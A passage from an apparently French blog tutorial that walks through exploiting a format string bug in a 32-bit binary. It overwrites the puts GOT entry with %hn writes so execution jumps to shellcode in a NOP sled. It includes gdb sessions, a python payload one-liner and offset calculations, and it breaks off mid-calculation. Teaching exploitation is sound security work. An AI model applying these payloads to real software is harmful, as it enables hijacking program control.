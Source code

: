 ```jmp *0x804a014``` nous montre que l'on va faire un jump à l'adresse contenue à l'adresse *0x804a014*.   
![fmt8]({{ site.url }}/public/images/fmt/fmt8.png)  
Let's check in gdb:  
![fmt9]({{ site.url }}/public/images/fmt/fmt9.png)  
  
Il semblerait que nous puissions écrire sur ce segment mémoire. Comment allons-nous procéder?  
D'abord injectons l'adresse mémoire à laquelle nous souhaitons écrire:  
![fmt10]({{ site.url }}/public/images/fmt/fmt10.png)  
On définit maintenant un point d'arrêt cette fois juste avant l'appel à la fonction printf:  
![fmt11]({{ site.url }}/public/images/fmt/fmt11.png)  
Bingo. On voit bien que l'adresse a été écrasée et que nous avons une **segmentation fault**.  
  
Maintenant la partie sensible, l'écriture de cette adresse. Pour écrire cette adresse nous utiliserons le formateur **%7$hn** dans notre cas. L'instruction de formatage **%hn** n'écrit que sur **16 octets**.  
  
Globalement notre buffer ressemblera à ceci:
```
"A"+"@ où écrire 16bits" + "@ où écrire les 16 autres bits" + "valeur correspondante à ces 16 bits" + "formateur écriture 16 bits" + "valeur correspondante à ces 16 autres bits" + "formateur écriture 16 bits" + "shellcode"
```  
  
Pourquoi ne pas écrire directement les 32 bits? Nous utiliserons la précision sur le formatage d'une valeur, ici le nombre de caractères sur lequel nous l'afficherons. L'adresse convertie en entier fournit un entier tout simplement trop grand pour être utilisé.   
```
(gdb) print 0xbffff24c 
$2 = 3221221964
```  
 
Tapez ```printf "%3221221964u"``` dans votre console. 
  
L'adresse finale écrite sera l'adresse de notre "shellcode".
  
Première étape:
```
(gdb) r < <(python -c 'print "A" + "\x14\xa0\x04\x08" + "\x16\xa0\x04\x08" + "%7$hn" + "A" + "%8$hn" + "A"*50') 
...
Program received signal SIGSEGV, 
Segmentation fault. 0x000a0009 in ?? () 
```
  
Maintenant déterminons l'adresse précise de notre shellcode:  
![fmt12]({{ site.url }}/public/images/fmt/fmt12.png)  
**0xbffff26c** semble être un bon candidat. On ajoutera quelques NOPs également comme marge de manoeuvre, l'objectif étant de tomber dans nos NOPs et de slider jusqu'à notre shellcode.  
  
Ok maintenant les calculs:  
@ de puts: **0x804a014**  
@ du shellcode: **0xbffff26c**  
  
Calcul de la première partie de l'adresse (conversion décimale):
```
(gdb) print 0xbfff - 9 
$3 = 49142
```
```bash
printf "%x\n" 49142
0xbff6
```
